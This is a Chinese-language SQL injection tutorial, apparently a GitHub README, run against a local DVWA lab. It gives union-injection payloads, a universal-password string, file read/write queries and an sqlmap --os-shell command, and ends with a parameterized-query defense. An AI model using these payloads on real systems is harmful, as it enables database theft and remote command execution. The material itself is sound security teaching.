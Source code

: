 # python-network-programming
### SQL注入
#### 开启mysql日志功能
```text
mysql> show variables like 'general_log%'
    -> ;
+------------------+---------------------------------------------+
| Variable_name    | Value                                       |
+------------------+---------------------------------------------+
| general_log      | OFF                                         |
| general_log_file | c:\phpStudy\PHPTutorial\MySQL\data\test.log |
+------------------+---------------------------------------------+
2 rows in set (0.00 sec)

mysql> set global general_log = 'ON';
Query OK, 0 rows affected (0.02 sec)

mysql> show variables like 'general_log%';
+------------------+---------------------------------------------+
| Variable_name    | Value                                       |
+------------------+---------------------------------------------+
| general_log      | ON                                          |
| general_log_file | c:\phpStudy\PHPTutorial\MySQL\data\test.log |
+------------------+---------------------------------------------+
2 rows in set (0.00 sec)
```
#### 查看mysql日志
windows下使用baretail进行查看 [baretail下载地址](http://www.baremetalsoft.com/baretail/index.php)
#### sql注入原理
可以通过网站存在的查询语句进行构造，为此开发者对其伤透了脑筋，漏洞不光是查询，可能还存在与API、隐藏链接、http头数据、写入数据等。需要对数据包的结构和传递函数比较了解，建议学习的时候把数据库的日志打开，就可以查看到传递到数据库的语句是什么样子的了。 需要记住的information_schema数据库的SCHEMATA、TABLES、COLUMNS。 SCHEMATA表中存放所有数据库的名，字段名为SCHEMA_NAME。 关键函数database() 当前数据库名、version() 当前mysql版本、user()当前mysql用户.
#### 漏洞危害
高危漏洞,可以获取敏感信息，修改信息，脱裤，上传 webshell,执行命令。
#### mysql
默认库information_schema和其中的表SCHEMATA、TABLES和COLUMNS SCHEMATA 存储的是用户创建所有数据库的库名记录数据库库名的字段为SCHEMA_NAME  
select schema_name from information_schema.schemata 查询全部数据库  
select table_schema,table_name from information_schema.tables 查询全部数据库和表的对应  
select table_name,column_name from information_schema.columns; 查询全表对应的字段
#### asp站点万能密码
'or'='or'
#### union注入
1、首先判断是否有注入点?id=1' and 1=1#和?id=1' and 1=2，测试两个返回是否相同，如不同则含有注入漏洞    
2、判断字段数量 1' order by 1#，当返回错误，前一个数值即为最大字段量。  
3、得到字段个数后，进行union注入,id=1' union select 1,2# 如果都显示，说明两个字段都可以进行替换  
4、判断当前所使用的数据库1' union select version(),database()#  
5、查找需要的表 ?id=1' union select table_schema,table_name from information_schema.tables#，把所有数据库的库和表的对应显示出来。  
6、查找表对应的字段?id=1' union select table_name,column_name from information_schema.columns#  
7、查最终数据 ?id=1' union select user,password from dvwa.users#  
8、判断数据库版本1' and substring(@@version,1,1)=4# 如果返回正常结果，说明数据库版本是4.  
9、查询当前注入点的数据库用户union select user(),2#
```text
ID: 1' union select user(),2#
First name: admin
Surname: admin
ID: 1' union select user(),2#
First name: root@localhost
Surname: 2
```
10、读文件，写文件，没有配置–secure-file-priv
```text
show variables like '%secure%';
打开mysql的配置文件my.ini 然后在末尾加上secure-file-priv="" 重启就行了
```
```text
SELECT first_name, last_name FROM users WHERE user_id = '1' union select 1,load_file('c:\\test.txt')#'
select '123' into OUTFILE 'c:/123.txt';
```
11、使用sqlmap写入shell
```text
C:\soft\sqlmap>python sqlmap.py -u "http://192.168.1.9/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit#" -p "id" --cookie "security=low; PHPSESSID=1n3rvc90rbafotfo5r0tmn80l1" -T users
 -C "user,password" --os-shell
```
***
12、oracle数据库注入
```text
oracle数据库进行注入测试时必须写from一个表
union select 1,2,3,4,5 from dual;
由于使用union查询oracle数据库时必须保证前后两个字段类型相同，为了不报错，可以使用Null占位，则为union select null,null,null,null,null from dual;
dual是oracle默认创建的表，由system账号创建
union select 的返回结果为排序去重
union all select 直接输出查询结果，不会排序去重
```
13、为什么参数化查询可以防止 sql 注入
```python
import pymysql

#连接数据库
connect = pymysql.connect(
    host='192.168.1.9',
    user='root',
    password='root',
    db='dvwa',
    port=3306,
    charset='utf8'
)

#正常查询
name = 'admin'
#注入查询
# name = 'admin\''+ ' or 1=1#'
with connect.cursor() as cursor:
    #危险查询方法，会造成SQL注入
    # query = "select * from users where user='%s'"%(name)
    #安全查询方法，使用execute的参数传递name值
    query = "select * from users where user=%s"
    count = cursor.execute(query,args=name)
    print("影响行数:",str(count))
    for row in cursor.fetchall():
        print(row)
    connect.commit()
#使用预编译的SQL语句，SQL语句的语义不会改变。
#在PHP中使用?进行占位
```

***
不定期分享一些python开发,逆向破解、渗透测试相关文章,欢迎大家关注.  
![微信公众号](../gongzhonghao.jpg)
***
BUG:dazhuang_python@sina.com